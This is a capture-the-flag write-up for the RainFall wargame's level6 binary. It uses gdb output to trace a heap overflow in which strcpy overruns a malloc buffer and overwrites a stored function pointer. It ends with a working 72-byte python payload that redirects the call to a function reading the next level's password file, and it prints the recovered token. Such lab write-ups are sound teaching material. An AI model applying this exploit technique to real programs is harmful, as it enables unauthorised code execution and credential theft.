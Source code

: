 # Preparations

Entering level6 home directory we see a level6 binary with sticky bit in access rights.
By objdumping the binary we see 3 functions: main, m and n:

	level6@RainFall:~$ objdump -D -M intel-mnemonic level6 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
    Dump of assembler code for function main:
       0x0804847c <+0>:	push   ebp
       0x0804847d <+1>:	mov    ebp,esp
       0x0804847f <+3>:	and    esp,0xfffffff0
       0x08048482 <+6>:	sub    esp,0x20
       0x08048485 <+9>:	mov    DWORD PTR [esp],0x40 			;argument for malloc
       0x0804848c <+16>:	call   0x8048350 <malloc@plt> 		;call malloc with arguments
       0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax 	;result of malloc to some value
       0x08048495 <+25>:	mov    DWORD PTR [esp],0x4  		;argument for malloc
       0x0804849c <+32>:	call   0x8048350 <malloc@plt>   	;call malloc with arguments
       0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax 	;result of malloc to some value
       0x080484a5 <+41>:	mov    edx,0x8048468 			;upload the beginning of the m function 
       0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, put address of m function to the variable
       0x080484ae <+50>:	mov    DWORD PTR [eax],edx 		;something with variables, put address of m function to the variable
       0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc] 		;something with variables, argv is used
       0x080484b3 <+55>:	add    eax,0x4 				;something with variables, argv[1] is taken
       0x080484b6 <+58>:	mov    eax,DWORD PTR [eax] 		;arguments for strcpy
       0x080484b8 <+60>:	mov    edx,eax 				;arguments for strcpy
       0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c] 	;arguments for strcpy
       0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx 		;arguments for strcpy
       0x080484c2 <+70>:	mov    DWORD PTR [esp],eax 		;arguments for strcpy
       0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>   	;call strcpy with arguments
       0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, deal with variable that we used before
       0x080484ce <+82>:	mov    eax,DWORD PTR [eax] 		;prepare to call functions that is a variable
       0x080484d0 <+84>:	call   eax 				;call function that lies in a variable
       0x080484d2 <+86>:	leave
       0x080484d3 <+87>:	ret

Something new!\
Let's look at the m function:

	(gdb) disass m
    Dump of assembler code for function m:
       0x08048468 <+0>:	push   ebp
       0x08048469 <+1>:	mov    ebp,esp
       0x0804846b <+3>:	sub    esp,0x18
       0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1 		;argument for puts
       0x08048475 <+13>:	call   0x8048360 <puts@plt> 		;call puts with arguments
       0x0804847a <+18>:	leave
       0x0804847b <+19>:	ret

Let's look at the n function:

	(gdb) disass n
    Dump of assembler code for function n:
       0x08048454 <+0>:	push   ebp
       0x08048455 <+1>:	mov    ebp,esp
       0x08048457 <+3>:	sub    esp,0x18
       0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0 		;argument for system
       0x08048461 <+13>:	call   0x8048370 <system@plt>   	;call system with arguments
       0x08048466 <+18>:	leave
       0x08048467 <+19>:	ret

Let's see some insites by their addresses:

	Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468
    (gdb) x/s 0x80485b0
        $6 = "/bin/cat /home/user/level7/.pass"
    (gdb) x/s 0x80485d1
        $7 = "Nope"

Here we call an `m` function in the end of `main`.\
All the strings, arguments and FILE streams are known now.

# Exploitation

If we just start the binary, we have:

    level6@RainFall:~$ ./level6 abc
        Nope

Instead of "Nope" we need to print a token. This we can do if we send `n` function instead of the `m` function.\
Let's see what we have:

    Breakpoint 11, 0x080484ca in main ()
    (gdb) x/20wx $esp+0x18
        0xbffff6e8:	**0x0804a050**	0x0804a008	0x080484e0	0x00000000
        0xbffff6f8:	0x00000000	0xb7e454d3	0x00000002	0xbffff794
        0xbffff708:	0xbffff7a0	0xb7fdc858	0x00000000	0xbffff71c
        0xbffff718:	0xbffff7a0	0x00000000	0x0804822c	0xb7fd0ff4
        0xbffff728:	0x00000000	0x00000000	0x00000000	0x6d746187
    (gdb) x/wx $esp+0x18
        0xbffff6e8:	0x0804a050
    (gdb) p/x *0x0804a050
        $9 = 0x8048468

One more time - that is the address of the `m` function.

    Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468

Let's find argument sent to the `m` function (playing with arguments sent to the binary):

    (gdb) x/wx $esp+0x1c
        0xbffff6ec:	0x0804a008
    (gdb) p/s *0x0804a008
        $12 = 1094795585
    (gdb) p/x *0x0804a008
        $13 = 0x41414141
    (gdb) p/x *0x0804a008
        $14 = 0x41414141

Here are my 11 Аs
    
    (gdb) p/c *(0x0804a008 + 1)
    $32 = 65 'A'
    (gdb) p/c *(0x0804a008 + 2)
    $33 = 65 'A'
    (gdb) p/c *(0x0804a008 + 3)
    $34 = 65 'A'
    (gdb) p/c *(0x0804a008 + 4)
    $35 = 65 'A'
    (gdb) p/c *(0x0804a008 + 5)
    $36 = 65 'A'
    (gdb) p/c *(0x0804a008 + 6)
    $37 = 65 'A'
    (gdb) p/c *(0x0804a008 + 7)
    $38 = 65 'A'
    (gdb) p/c *(0x0804a008 + 8)
    $39 = 65 'A'
    (gdb) p/c *(0x0804a008 + 9)
    $40 = 65 'A'
    (gdb) p/c *(0x0804a008 + 10)
    $41 = 65 'A'
    (gdb) p/c *(0x0804a008 + 11)
    $42 = 0 '\000'

And that is where call to `m` function lies:

    (gdb) x/10wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000
    (gdb) x/20wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a048:	0x00000000	0x00000011	**0x08048468**	0x00000000

That is 72 bytes starting from the buffer beginning:

    (gdb) p/x 0x804a048 + 8
        $44 = 0x804a050
    (gdb) p 0x804a050 - 0x804a008
        $45 = 72

Now let's replace `m` address with `n` address that is 0x08048454 or \x54\x84\x04\x08 in little-endian by writing it over.\
We make:

    level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
        f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

# Result

    level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
        f73dcb7a06f60e3ccc608990b0a046359d42a1a0489f